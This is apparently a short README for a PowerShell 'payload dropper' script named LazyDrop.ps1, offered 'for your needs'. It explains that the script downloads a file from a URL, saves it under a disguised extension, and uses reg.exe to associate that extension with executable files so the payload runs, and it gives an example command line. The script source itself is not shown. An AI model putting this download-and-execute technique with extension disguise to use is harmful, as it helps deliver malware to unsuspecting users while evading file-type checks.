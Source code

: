 Greetings
--------------------

this is a payload droper ps1 script for your needs

use reg.exe to make the obsolete ext given to the file when downloaded execute the file properly with

its correct extension

note : this will also execute it

Example :
-------------------------

.\LazyDrop.ps1 -Url "https://example.com/file" -EnvVariable "USERPROFILE" -FileType "jplg" -RegistryEntry "exefile"
